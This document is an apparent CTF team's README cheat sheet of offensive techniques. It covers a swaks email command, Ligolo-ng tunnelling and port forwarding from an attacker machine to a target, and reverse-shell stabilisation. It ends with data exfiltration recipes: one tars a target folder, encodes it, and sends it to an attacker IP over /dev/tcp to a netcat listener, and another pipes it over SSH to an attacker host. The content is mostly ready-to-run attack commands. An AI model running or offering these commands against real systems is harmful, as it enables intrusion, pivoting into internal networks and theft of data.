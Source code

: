 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
 
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


### Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

# Exfilrating Data
##via TCP socket, ebcdic and base64
###On kali:
```
nc -nlvp 80 > datafolder.tmp
```
###On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
###On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
##via SSH
###On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
###On kali:
```
cd /tmp/datafolder
```
